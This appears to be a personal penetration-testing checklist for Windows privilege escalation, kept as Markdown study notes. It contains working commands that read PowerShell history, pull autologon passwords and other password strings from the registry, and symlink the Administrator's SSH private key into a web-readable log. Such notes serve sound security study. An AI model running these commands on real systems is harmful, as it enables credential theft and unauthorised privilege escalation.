SA
- [ ] whoami /all
	- [ ] if the user is local service/network service: see [[5 - General Tools]] in task schedule
- [ ] history of shell
	- [ ] history
	- [ ] `cat $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`
	- [ ] (Get-PSReadlineOption).HistorySavePath
- [ ] get autologon creds
	- [ ] `Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' | select "Default*"`
	- [ ] `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"`
- [ ] recursive ls on c:\\users
- [ ] check c:\\
- [ ] search interesting files like keepass and .git
- [ ] ls -all `Get-ChildItem -Force`
- [ ] interesting programs in C:\\Program Files (x86) / C:\\Program Files
- [ ] ipconfig
- [ ] netstat -ano
	- [ ] `netstat -an | findstr "127.0.0.1:"`
- [ ] search password - `reg query HKLM /f password /t REG_SZ /s`
- [ ] `Get-RegistryAlwaysInstallElevated`
	- [ ] can run all .msi files
- [ ] process 
- [ ] services
	- [ ] found vulnerable program
- [ ] if its script copy files create  symbolic link with admin ssh key
	- [ ] tools: `New-Item -ItemType SymbolicLink -Path "C:\xampp\htdocs\logs\request.log" -Target "C:\Users\Administrator\.ssh\id_rsa"`
	- [ ] `mlink`
	- [ ] `CreateSymlink.exe`
- [ ] schedule tasks
- [ ] wipeas
- [ ] search an exploits from the initial access
